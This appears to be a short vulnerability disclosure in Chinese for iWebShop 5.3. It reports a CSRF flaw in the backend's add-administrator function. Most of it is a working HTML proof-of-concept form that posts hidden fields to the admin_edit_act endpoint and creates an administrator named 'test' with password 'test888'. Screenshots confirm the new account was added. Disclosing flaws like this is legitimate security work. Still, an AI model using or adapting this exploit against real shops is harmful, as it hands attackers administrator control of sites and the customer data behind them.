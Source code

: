 # iWebShop

**iWebShop5.3后台存在CSRF漏洞**

1.在`管理员`->`添加管理员`功能处存在CSRF漏洞

![image](http://wx2.sinaimg.cn/mw690/0060lm7Tly1g0vg867mdmj30tz0nt75j.jpg)

POC

`<html>`

  <body>

  <script>history.pushState('', '', '/')</script>
    <form action="http://192.168.138.132/iw/index.php?controller=system&action=admin_edit_act" method="POST">
      <input type="hidden" name="id" value="" />
      <input type="hidden" name="admin&#95;name" value="test" />
      <input type="hidden" name="password" value="test888" />
      <input type="hidden" name="repassword" value="test888" />
      <input type="hidden" name="role&#95;id" value="0" />
      <input type="hidden" name="email" value="1&#64;qq&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
  `</body>`
`</html>`

验证

![image](http://wx1.sinaimg.cn/mw690/0060lm7Tly1g0vg868y55j31ef0il0v8.jpg)

发现可以添加后台管理员

官网链接

`http://www.aircheng.com/`

